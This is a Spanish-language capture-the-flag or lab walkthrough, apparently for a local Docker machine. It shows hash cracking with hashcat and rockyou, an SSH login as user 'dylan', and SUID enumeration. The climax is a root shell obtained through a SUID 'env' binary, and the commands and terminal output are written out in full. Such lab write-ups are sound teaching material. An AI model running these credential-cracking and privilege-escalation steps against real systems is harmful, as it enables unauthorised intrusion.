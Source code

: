 
## 🔓 4) Intento de Acceso con Credenciales
Si las credenciales están en texto plano, probarlas en:  
- **Login web**: `http://172.17.0.2`  
- **SSH**:  
```bash
ssh usuario@172.17.0.2
```

Si están cifradas, crackearlas con:  
```bash
hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

---

## 📌 5) Próximos Pasos
✅ Revisar permisos y archivos sensibles en el servidor.  
✅ Intentar escalación de privilegios si logramos acceso.  
✅ Buscar configuraciones débiles (`sudo -l`, `find / -perm -4000 -user root`).  

### ┌──(pol㉿kali)-[~/Escritorio/dockerlab]
└─$ ssh dylan@172.17.0.2
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.12.13-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

dylan@082f666783ef:~$ whoami
dylan
dylan@082f666783ef:~$ find / -perm -4000 -user root 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/umount
/usr/bin/env
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
dylan@082f666783ef:~$ /usr/bin/env /bin/sh -p
# whoami
root
# 
🔓 4) Escalada de Privilegios a Root
Después de obtener acceso a la máquina como usuario dylan, buscamos binarios con SUID activos, lo que puede permitir escalación de privilegios.
